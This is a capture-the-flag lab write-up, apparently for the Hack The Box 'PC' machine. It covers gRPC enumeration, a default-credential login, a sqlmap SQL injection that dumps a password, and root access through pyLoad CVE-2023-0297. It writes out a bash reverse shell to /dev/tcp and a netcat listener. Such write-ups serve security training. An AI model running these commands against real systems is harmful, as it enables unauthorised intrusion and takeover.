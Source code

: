 # Walking through PC

## Gathering Part

We began our journey by gathering information about the target and establishing a basic cartography of its structure.

To do so, we’re going to launch an `nmap` scan:

```console
kali@kali:~ sudo nmap -sV -A -p- -T5 10.10.11.214
````

I found a pretty common SSH service running on port 22 and a less usual **gRPC** service running on port 50051 (this could also be detected using `whatweb`).

### What is gRPC?

**gRPC** (Google Remote Procedure Call) is a high-performance, open-source RPC framework developed by Google. RPC is a concept where a program can execute a function on another computer (or server) as if it were calling a local function.

But let's get back to our business. We tried to see if we could interact and grab some banners using `telnet` on the gRPC port. Nothing, except for an encoded message.


![$alt text$](telnet.png)

Our next task is to find a way to communicate with our target. After further research, we found a tool named `grpcurl`. "It's like curl, but for gRPC." Using this command:

```console
kali@kali:~ grpcurl --plaintext 10.10.11.214:50051 list 
```

We could then see the available services on this server and retrieve a schema for them.

We could move forward with this tool, but we are more comfortable with a UI (that's my Windows side...).

There is a tool that could help us with that: `gRPCui`. It's a command-line tool that lets you interact with gRPC servers via a browser. Among the available endpoints, we could see **LoginUser**, **RegisterUser**, or **getInfo**.

We could then launch the next phase: gaining access to the system.

## Gaining access to the system by exploiting vulnerabilities

I went through the app and went to the login page. My first thought was to try the famous *admin:admin* credentials to log in. To my surprise, it worked.


![default credentials test](defaultcred1.png)

We’re given an ID (162) and a token, which seems to be a JWT token.

![authenticated](id_token1.png)

We use our resources to get the composition of this token:

![alt text](image.png)

Looking for vulnerabilities related to gRPC, we could see that it is prone to SQLi. That said, we attempted to use sqlmap with the **getInfo** endpoint (by retrieving the request). We retrieved the request made to the **getInfo** endpoint.

![alt text](request.png)

Then, we launch our tool used to automate SQL injection testing using this command:

```console
kali@kali:~ sqlmap -r request.txt
```
It turns out to be successful and allows us to dump the password of a user (**sau**).

![alt text](sqlmap_result.png)

Attempting this via SSH is also successful. So, we gained access to our PC! Next step: looking through the system for any vulnerabilities that could allow us to escalate our privileges.


## Privilege Escalation

Among the first things to do on the machine: look for sudo capabilities. To do so, we launch the command:

``` console
kali@kali:~ sudo -l
```
Nothing to see here.

What comes next is to search for open ports exclusively for the local network on this machine, because there could be services running but not accessible to others.

Guess what? It's definitely the case: something is running on port 8000 and on port 9666.
Nevertheless, port 8000 is open only through the localhost address.


![alt text](image-1.png)

We tried to communicate with these ports. There's nothing better than using telnet to try it. 

![alt text](telnet_viaSSH.png)

We are talking to an HTTP service.

A simple `curl` helped us resolve our little mystery.

``` console
sau@pc:~ curl -v http://localhost:9666
```
We then discovered a website with an obscure endpoint used to log in. 

Knowing that we have SSH access to the system, we could use the SSH forwarding technique to see what’s going on. To do so, here is our command:

``` console
kali@kali:~ ssh -L 9666:127.0.0.1:1234 sau@10.10.11.214 -N
```

That's a pyLoad server. Looking for the version on the system, we found that it's **version 0.5.0**, and it's vulnerable to a pre-authenticated RCE (**CVE-2023-0297**).


![alt text](pyLoad.png)

We fetched a script here:

![alt text](<Capture d'écran 2025-04-14 124902.png>)

Right after, we set up everything we need for the exploit to work, which means:

- The listener on the port of your choice (`nc -lvnp 6789`)
- The command we want to launch (`bash -c '/bin/sh -i >& /dev/tcp/X.X.X.X/6789 0>&1'`)

And here we go!


![alt text](exploitPyload.png)

That's a success; we're root!

![alt text](root.png)

We can now retrieve our flag from the /root directory.
